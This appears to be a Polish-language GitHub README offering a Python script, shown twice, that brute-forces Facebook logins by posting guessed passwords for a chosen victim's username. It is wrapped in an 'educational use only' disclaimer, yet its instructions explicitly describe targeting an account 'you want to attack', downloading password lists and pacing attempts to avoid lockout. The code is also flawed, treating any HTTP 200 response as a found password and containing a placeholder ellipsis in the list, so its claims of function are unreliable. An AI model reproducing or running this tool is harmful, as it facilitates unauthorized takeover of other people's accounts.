 

# Brute-force-
Brute force Facebook "używajcie w calch edukacji" nie ponoszę odpowiedźi
miłej zabawy wam życzę powodzenia w testach 
_____________________________________________



import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = input("Podaj nazwę użytkownika: ")
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()





**UWAGA:** Ten program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do innych celów 

**Opis działania programu:**

Program działa poprzez próbę logowania do konta Facebook podając różne kombinacje nazwy użytkownika i hasła. Najpierw użytkownik musi podać nazwę użytkownika, którą chce zaatakować. Następnie program przechodzi przez listę haseł i próbuje zalogować się z każdą kombinacją. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.

**Ustawienia programu:**

Program można dostosować do własnych potrzeb, zmieniając następujące ustawienia:

* **Lista haseł:** Lista haseł, z których program będzie próbował korzystać. Listę można utworzyć ręcznie lub pobrać z zewnętrznego źródła.
* **Czas oczekiwania:** Czas oczekiwania między próbami logowania. Czas oczekiwania można ustawić, aby uniknąć blokady konta Facebook.

**Używanie programu:**

Aby użyć programu, należy wykonać następujące kroki:

1. Zainstaluj wymagane biblioteki.
2. Otwórz plik `brute_force.py` w edytorze tekstu.
3. Wprowadź nazwę użytkownika i listę haseł.
4. Zapisz plik i uruchom go.

**Ograniczenia programu:**

Program ma pewne ograniczenia:

* Program nie jest w 100% skuteczny. Istnieje możliwość, że program nie znajdzie hasła, nawet jeśli jest ono poprawne.
* Program może zostać zablokowany przez Facebooka. Jeśli program próbuje logować się zbyt wiele razy, Facebook może zablokować konto.


Aby móc testować konto za pomocą tego programu, należy podać następujące informacje:

* **Nazwa użytkownika:** Nazwa użytkownika konta, które chcesz zaatakować.
* **Lista haseł:** Lista haseł, z których program będzie próbował korzystać. Listę można utworzyć ręcznie lub pobrać z zewnętrznego źródła.

**Nazwa użytkownika**

Nazwa użytkownika to unikalny identyfikator konta Facebook. Możesz znaleźć nazwę użytkownika użytkownika, odwiedzając jego profil na Facebooku.

**Lista haseł**

Lista haseł to lista potencjalnych haseł, które użytkownik może używać do logowania się do swojego konta. Listę można utworzyć ręcznie, korzystając z popularnych słów, fraz lub kombinacji cyfr. Można również pobrać listę haseł z zewnętrznego źródła.

**Uwaga:**

Aby zwiększyć skuteczność programu, należy użyć listy haseł, która jest jak najbardziej aktualna i obejmuje szeroki zakres potencjalnych haseł.

**Przykład:**

Przykładowy sposób użycia programu do testowania konta Facebook:

```python
import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = "example@example.com"
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()
```

W tym przykładzie nazwa użytkownika to `example@example.com`. Lista haseł to `hasło1`, `hasło2`, `hasło3`, ... Program będzie próbować logować się do konta Facebook, używając każdej kombinacji nazwy użytkownika i hasła z listy. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.


**Uwagi końcowe:**

Program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do nielegalnych działań.